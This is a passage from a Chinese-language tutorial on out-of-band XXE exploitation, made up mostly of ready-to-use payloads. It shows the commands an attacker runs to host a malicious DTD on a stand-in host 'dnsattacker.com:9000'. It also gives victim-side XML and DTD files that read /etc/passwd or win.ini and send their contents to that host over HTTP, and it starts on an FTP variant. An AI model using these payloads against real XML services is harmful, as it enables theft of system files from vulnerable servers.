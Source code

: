 ### 2. 利用/渗出

**HTTP**

攻击者：运行python HTTP server来托管dtd文件。

```python
python -m SimpleHttpServer 9000
```

受害者：

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://dnsattacker.com:9000/linux.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

**linux.dtd**

```dtd
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://dnsattacker.com:9000/%data;'>">
```

**![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630039_5b971d17c1be1.png!small)**

**注：**对基于Windows的受害者机器，请使用以下dtd文件。

**windows.dtd**

```dtd
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM ' http://dnsattacker.com:9000/%data;'>"> 
```

### 3. FTP

攻击者：

运行python HTTP server来托管dtd文件以及xxeftp server（请参考[此处](https://gist.github.com/staaldraad/280f167f5cb49a80b4a3)）。

```python
python -m SimpleHttpServer 9000

python xxeftp.py
```

受害者：

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://dnsattacker.com:9000/linux.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```
